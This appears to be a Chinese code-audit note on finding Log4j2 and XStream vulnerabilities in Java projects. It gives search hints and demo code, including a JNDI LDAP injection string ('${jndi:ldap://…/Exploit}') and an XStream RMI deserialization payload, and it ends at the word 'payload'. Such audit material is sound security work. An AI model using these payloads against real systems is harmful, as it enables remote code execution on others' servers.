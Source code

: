 1、没有使用log4j2，但是间接引入log4j-api 和 log4j-core 2.x，也存在漏洞<br />2、只有log4j-api 2.x，没有log4j-core 2.x，不用升级，但需要确认编译的包里没有log4j-core 2.x 不仅是在pom里确认

快速定位 ：getLogger

漏洞代码demo：
```java
import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;
import org.apache.logging.log4j.ThreadContext;

public class Log4j {
    public static final Logger LOGGER = LogManager.getLogger(Log4j.class);

    public static void main(String[] args) {
        ThreadContext.put("loginId", "${${ctx:loginId}}");
        LOGGER.error("a");
    }
}

```
```java
import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;
import sun.applet.Main;

public class log4j {
    private static Logger LOG=LogManager.getLogger(Main.class);
    public static void main(String[] args) {
        LOG.error("${jndi:ldap://localhost:9999/Exploit}");
    }
}
```
真实案例代码如下所示：<br />![image.png](https://cdn.nlark.com/yuque/0/2022/png/1345801/1646150669400-2aeca39c-b6e2-4f98-81aa-86a9f1b12f9c.png#clientId=ub5add994-af4b-4&from=paste&height=284&id=u521d4d6a&originHeight=567&originWidth=1265&originalType=binary&ratio=1&rotation=0&showTitle=false&size=68087&status=done&style=none&taskId=u95e736e3-5fbf-40cb-b4ed-e76ccd2a0b9&title=&width=632.5)

<a name="U20ZN"></a>
### xtream
快速定位 fromXML
```java
public class Main {

    public static void main(String[] args) {
        String xml ="<sun.rmi.registry.RegistryImpl_Stub serialization=\"custom\"> \n" +
                "  <java.rmi.server.RemoteObject> \n" +
                "    <string>UnicastRef</string>  \n" +
                "    <string>127.0.0.1</string>  \n" +
                "    <int>8001</int>  \n" +
                "    <long>0</long>  \n" +
                "    <int>0</int>  \n" +
                "    <long>0</long>  \n" +
                "    <short>0</short>  \n" +
                "    <boolean>false</boolean> \n" +
                "  </java.rmi.server.RemoteObject> \n" +
                "</sun.rmi.registry.RegistryImpl_Stub>";
        // write your code hereXStream xstream = new XStream();;
        XStream xstream = new XStream();
        xstream.fromXML(xml);
    }
}
```
payload
